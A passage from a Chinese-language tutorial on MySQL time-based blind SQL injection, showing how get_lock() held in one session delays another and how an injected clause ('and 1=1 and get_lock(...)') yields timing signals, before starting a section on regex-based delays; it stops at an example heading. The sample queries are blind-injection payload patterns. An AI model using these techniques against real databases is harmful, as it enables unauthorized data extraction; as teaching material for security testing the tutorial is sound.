 对关键字进行了get_lock,那么再开另一个session再次对关键进行get_lock，就会延时我们指定的时间

**SESSION A**上锁，注入时的第一步也是对字段加锁

```
mysql> select get_lock('111',10);
+--------------------+
| get_lock('111',10) |
+--------------------+
|                  1 |
+--------------------+
1 row in set (0.01 sec)
```

再打开一个终端**SESSION B**

```
mysql> select get_lock('111',5);
+-------------------+
| get_lock('111',5) |
+-------------------+
|                 0 |
+-------------------+
1 row in set (5.00 sec)
```

可结合**and短路运算规则**进行时间盲注

```
select * from vorname where Vorname='Lina' and 1=1 and  get_lock('111',2);
Empty set (2.00 sec)
```

**限制条件**

数据库连接必须是持久连接，这个我还没有实践过，参考参考文章，大概意思就是在数据库**mysql_connect()**到**mysql_close()**之间的生命周期才生效。



# 正则表达式

原理是通过大量的正则匹配实现延时，与**benchmark**和前面说的**heavy query**本质相似。

MySQL中有**like**、**rlike**、**regexp**正则可以用来匹配，其中**like**内容是通配符，不是正则；**rlike**和**regexp**内容可以正则。

**like**

like常用的通配符：%、_、escape

| 通配符 | 用法                  |
| ------ | --------------------- |
| %      | 匹配0个或任意多个字符 |
| _      | 匹配任意一个字符      |
| escape | 转义字符，可匹配%和_  |

举例
